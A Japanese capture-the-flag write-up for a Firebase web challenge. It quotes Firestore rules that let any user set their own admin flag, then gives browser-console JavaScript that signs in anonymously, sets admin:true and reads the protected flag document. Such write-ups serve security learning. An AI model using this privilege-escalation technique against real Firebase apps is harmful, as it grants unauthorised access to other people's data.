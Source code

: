 # Problem on fire:Web:200pts
たいへん！作問作業が炎上しちゃったよ！みんなで力を合わせてなんとかしよう！  
[https://challenge-on-fire.web.app/](https://challenge-on-fire.web.app/)  
[challenge_on_fire.tar.gz](challenge_on_fire.tar.gz)  

# Solution
アクセスすると謎のサイトが動いていた。  
Welcome to Firebase Hosting  
[site.png](site/site.png)  
タイトルからもわかる通りFirebase系のWeb問題のようだ。  
権限周りの脆弱性であることが容易に想像がつく。  
配布されたファイルのrulesを見ると以下のようであった。  
```
rules_version = '2';
service cloud.firestore {
  match /databases/{database}/documents {
    match /users/{uid} {
      // 自分のユーザー情報を書き込めるのは自分のみ
      allow read, create: if request.auth.uid == uid && !request.resource.data.admin;
      // 一度作ったユーザー情報を編集できるのはadminだけ
      allow update: if request.resource.data.admin;
    }
    match /flags/flag {
      // flagを読めるのはadminだけ
      allow read: if get(/databases/$(database)/documents/users/$(request.auth.uid)).data.admin == true;
    }
  }
}
```
adminのみがフラグを読むことができ、自分のみが自分のユーザ情報を書き込める。  
adminになってしまえばよい。  
ページからパクって編集した以下のjsをブラウザのコンソールから実行する。  
```js
const auth = firebase.auth();
const {user} = await auth.signInAnonymously();
const token = await user.getIdToken();
const uid = user.uid;
const db = firebase.firestore();
await db.collection('users').doc(uid).set({admin: true});
const flag = await db.collection('flags').doc('flag').get();
this.flag = flag.get('value');
```
![flag.png](images/flag.png)  
flagが得られた。  

## TSGLIVE{git_fire_is_also_useful_when_the_project_is_on_fire}